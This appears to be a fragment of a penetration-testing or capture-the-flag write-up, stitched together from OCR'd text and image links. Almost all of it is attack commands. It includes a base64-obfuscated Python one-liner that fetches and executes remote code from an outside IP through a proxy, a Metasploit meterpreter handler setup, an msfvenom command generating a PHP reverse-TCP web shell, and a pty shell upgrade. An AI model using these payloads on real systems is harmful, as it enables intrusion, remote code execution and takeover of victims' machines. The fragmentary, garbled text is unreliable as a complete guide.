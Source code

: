 ```use payload/python/meterpreter/reverse_http``` ![proxy2](https://user-images.githubusercontent.com/7115563/33836652-3d9c9624-de8a-11e7-9869-e18c5a28ebd7.png) ```python -c "import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'UTF-8')}[sys.version_info[0]]('aW1wb3J0IHN5cwp2aT1zeXMudmVyc2lvbl9pbmZvCnVsPV9faW1wb3J0X18oezI6J3VybGxpYjInLDM6J3VybGxpYi5yZXF1ZXN0J31bdmlbMF1dLGZyb21saXN0PVsnYnVpbGRfb3BlbmVyJywnUHJveHlIYW5kbGVyJ10pCmhzPVtdCmhzLmFwcGVuZCh1bC5Qcm94eUhhbmRsZXIoeydodHRwJzonaHR0cDovLzE5Mi4xNjguMTA3LjIzMjo4MDgwJ30pKQpvPXVsLmJ1aWxkX29wZW5lcigqaHMpCm8uYWRkaGVhZGVycz1bKCdVc2VyLUFnZW50JywnTW96aWxsYS81LjAgKFdpbmRvd3MgTlQgNi4xOyBUcmlkZW50LzcuMDsgcnY6MTEuMCkgbGlrZSBHZWNrbycpXQpleGVjKG8ub3BlbignaHR0cDovLzE3OC42Mi41OC4zNTo4MC9qOTkzQScpLnJlYWQoKSkK')))"``` Finally we set up the handler: ![proxy3](https://user-images.githubusercontent.com/7115563/33836552-fd3204ac-de89-11e7-940c-71c8ab321bf7.png)
set LHOST 10.10.17.29
set LPORT 5555
set ExitOnSession false
exploit -j -z

msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.17.29 LPORT=5555> -f raw > shell.php

python -c 'import pty; pty.spawn("/bin/bash")'
